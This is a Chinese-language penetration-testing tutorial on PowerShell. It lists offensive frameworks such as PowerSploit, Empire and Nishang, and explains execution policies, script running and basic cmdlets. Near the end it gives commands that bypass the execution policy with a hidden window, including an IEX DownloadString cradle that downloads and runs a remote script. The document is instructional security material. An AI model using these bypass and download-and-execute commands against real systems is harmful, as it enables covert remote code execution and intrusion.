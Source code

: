  

# PowerShell技术

具有灵活，功能化管理windows系统的能力。

可以在磁盘和内存中运行。

常用的PowerShell攻击工具：

PowerSploit：

这是众多PowerShell攻击工具中被广泛使用的PowerShell后期漏洞利用框架，常用于信息探测，特权提升，凭证窃取，持久化等操作。

Nishang：

基于PowerShell的渗透测试专用工具，集成了框架，脚本和各种Payload，包括下载和执行，键盘记录，DNS，延时命令等脚本。

Empire;

基于PowerShell的远程控制木马，可以从凭证数据库中导出和跟踪凭证信息，常用于提供前期漏洞利用的集成模块，信息探测，凭据窃取，持久化控制。

PowerCat：

PowerCat 版的NetCat，有着网络工具中的“瑞士军刀”美誉，它能通过TCP和UDP在网络中读写数据。通过与其他工具结合和重定向，读者可以在脚本中以多种方式使用它。

## PowerShell

### PowerShell简介

windows PowerShell 是一种命令行外壳程序和脚本环境，它内置在每个受支持的windows版本中

### PowerShell 的特点

windows 7 以上的操作系统默认安装

PowerShell脚本可以运行在内存中，不需要写入磁盘。

可以从另一个系统中下载PowerShell 脚本并执行。

目前很多工具都是基于PowerShell开发的。

很多安全软件并不能检测到PowerShell的活动。

cmd.exe 通常会被阻止运行，但是PowerShell不会。

可以用来管理活动目录

列:

可以打开PowerShel命令窗输入`Get-Host`或`PSVersionTable.PSVERSION`查看PowerShell版本

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5olfp1x62j30ne09hglt.jpg)

查看PowerShell版本

## PowerShell的基本概念

### 1.PS1文件

一个PowerShell脚本其实就是一个简单的文本文件，这个文件包含了一系列PowerShell命令 每个命令显示为独立的一行，对于被视为PowerShell脚本的文本文件，它的文件名需要加上.ps1的扩展名。



### 2.执行策略

为了防止恶意脚本的执行，PowerShell有一个执行策略，默认情况下，这个执行策略被设为受限。

在PowerShell脚本无法执行时，可以使用cmdlet命令确定当前的执行策略。

- ```
  	Get-ExecutionPolicy   // 可以获取当前的策略
  set-Executionpolicy  <policy name>   //设置执行策略。
  列如：
  set-Executionpolicy Restricted		//设置执行策略为Restricted
  ```

- ​    Restricted.    
  ​    不读取任何配置文件、不运行任何脚本，这个是默认策略。   
- ​    AllSigned.    
  ​    所有的脚本和配置文件必须有受信任的的发布者的签名，就算是自己写的脚本也同样如此，否则无法执行。   
- ​    RemoteSigned.    
  ​    和上面的类似，但是针对的是从网上下载下来的脚本，这些脚本同样也需要可信的签名。   
- ​    Unrestricted.    
  ​    可以运行脚本或者读取配置文件，如果执行的是从网上下载的脚本，那么会有一个申请权限的提示。   
- ​    Bypass.    
  ​    不阻止任何脚本或配置文件，也不会显示警告或者提示。   
- ​    Undefined.    
  ​    把当前scope的所有策略全部都删除，但是不会删除Group Policy scope中的策略。如果你想删除某个设置好的策略，用这个就行了。   



### 3.运行脚本

运行一个PowerShell脚本，必须键入完整的路径和文件名，

列如需要运行一个a.ps1的脚本文件，可以键入c:\windows\a.ps1 

如果PowerShell脚本的文件在系统目录下，那么在命令提示符后面键入文件名称就可以运行

例如：.\a.ps1 在文件名前面加上`.\` 和linux执行文件相同。

### 4.管道

管道的作用是将一个命令的输出作为另一个命令的输入，在两个命令之间用`|`符号来连接。

例如：

停止所有目前运行的，以 p 字符开头命名的程序；

`Get-process p* | stop-process`  //停止进程中以p开头的进程

## PowerShell 的常用命令

### 1.基本知识

在PowerShell下，类似`cmd命令`叫做`cmdlet`其命名规范相当一致，

采用  "动词——名词'' 的形式，如New-ltem

动词部分一般为 ：Add（添加），New（新的），Get（得到），Remove(去除），Set（设置）等。

PowerShell 命令不区分大小写：

文件操作的基本用法：

- ```
  `New-Item test -type Directory`    //新建目录
  `New-Item test.txt -type File`		//新建文件
  `Remove-Item 文件或目录`				//删除文件和目录
  get-content 1.txt					//显示文本内容
  set-content 1.txt -value "hello"	//设置文本的内容
  add-content 1.txt -value "world"		//追加文本内容
  Clear-Content test.txt   				//清除内容
  ```



2.常用命令

可以通过windows终端输入powershell,进入到powershell命令行，输入help命令显示帮助菜单。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5pons9xvqj30qm0e6gmc.jpg)

运行powershell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted,所以在渗透时，就需要采用一些方法绕过策略来执行脚本，Powershell脚本在默认情况下无法执行，这时就需要使用以下三种方式来进行绕过。

`Powershell.exe -ExecutionPolicy Bypass -File xxx.ps1`       //绕过本地权限执行

`PowerShell.exe -Executionpolicy Bypass -windowstyle Hidden -NoLogo -Nonlnteractive -NoProfile -File xxx.ps1`    //本地隐藏绕过权限执行脚本

`powerShell.exe -ExecutionPolicy Bypass -Windowstyle Hidden -NoProfile -NonI IEX(New-ObjectNet.webclient).Downloadstring("xxx.ps1");[parameters]`

//用IEX下载远程ps1脚本绕过权限执行。



对使用的参数进行说明：

ExecutionPolicy Bypass: 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。

WindowsStyle Hidden:隐藏窗口

NoLogo:启动不显示版权标志的PowerShell.

Nonlnteractive (-Nonl):非交互模式，PowerShell 不为用户提供交互的提示。

NoProfile (-NoP) :PoWerShell控制台不加载当前用户的配置文件。

Noexit：执行后不退出Shell。这在使用键盘记录等脚本时非常重要。

















